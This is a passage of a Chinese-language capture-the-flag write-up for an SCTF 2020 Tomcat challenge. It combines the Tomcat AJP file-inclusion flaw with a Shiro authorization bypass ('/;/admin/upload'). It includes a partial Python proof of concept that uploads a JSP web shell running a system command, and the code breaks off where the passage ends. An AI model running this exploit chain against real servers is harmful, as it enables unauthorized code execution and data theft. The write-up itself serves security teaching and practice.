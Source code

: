 接入代理后已经可以成功访问内网，然后根据Dockerfile或者提示文件很容易找到内网WEB应用

http://sctf2020tomcat.syclover:8080/login

![image-20200703152344652](README/image-20200703152344652.png)

内网中该版本的Tomcat存在Ajp文件包含漏洞，可上传文件并包含getshell，但是文件上传接口有Shiro进行权限控制

使用Ajp协议绕过的方法，参考:

https://issues.apache.org/jira/browse/SHIRO-760

[https://gv7.me/articles/2020/how-to-detect-tomcat-ajp-lfi-more-accurately/#0x05-%E6%83%85%E5%86%B5%E5%9B%9B%EF%BC%9Ashiro%E7%8E%AF%E5%A2%83%E4%B8%8B](https://gv7.me/articles/2020/how-to-detect-tomcat-ajp-lfi-more-accurately/#0x05-情况四：shiro环境下)



借助[AJPy库](https://github.com/hypn0s/AJPy)，最后文件上传+文件包含的POC:

```python
import sys
import os
from io import BytesIO
from ajpy.ajp import AjpResponse, AjpForwardRequest, AjpBodyRequest, NotFoundException
from tomcat import Tomcat

#proxy
import socks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 8081)
socket.socket = socks.socksocket

target_host = "sctf2020tomcat.syclover"
gc = Tomcat(target_host, 8009)

filename = "shell.jpg"
payload = "<% out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec(\"cat /flag.txt\").getInputStream())).readLine()); %>"

with open("./request", "w+b") as f:
    s_form_header = '------WebKitFormBoundaryb2qpuwMoVtQJENti\r\nContent-Disposition: form-data; name="file"; filename="%s"\r\nContent-Type: application/octet-stream\r\n\r\n' % filename
    s_form_footer = '\r\n------WebKitFormBoundaryb2qpuwMoVtQJENti--\r\n'
    f.write(s_form_header.encode('utf-8'))
    f.write(payload.encode('utf-8'))
    f.write(s_form_footer.encode('utf-8'))

data_len = os.path.getsize("./request")

headers = {  
        "SC_REQ_CONTENT_TYPE": "multipart/form-data; boundary=----WebKitFormBoundaryb2qpuwMoVtQJENti",
        "SC_REQ_CONTENT_LENGTH": "%d" % data_len,
}

attributes = [
    {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.request_uri", "/;/admin/upload", )
    }
    , {
```